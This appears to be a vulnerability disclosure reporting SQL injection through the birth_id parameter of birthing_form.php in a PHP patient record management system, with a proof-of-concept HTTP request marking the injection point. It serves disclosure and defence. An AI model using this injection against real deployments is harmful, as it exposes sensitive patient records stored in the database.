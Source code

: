 # patient-record-management-system-in-php has sql injection in birthing_form.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

birthing_form.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in birthing_form.php The parameters that can be controlled are as follows: $birth_id. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/3327dd74-b6a9-453b-8a94-a41efc902245)



## POC

asset the url，can get the sql reqult on the page.

login the system with any account 

![Image](https://github.com/user-attachments/assets/527a3c65-5f46-4dca-8284-ba6f0918640e)

```
GET /birthing_form.php?birth_id=1* HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apub8ggoc8777fmi1n9sbu6ca1
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
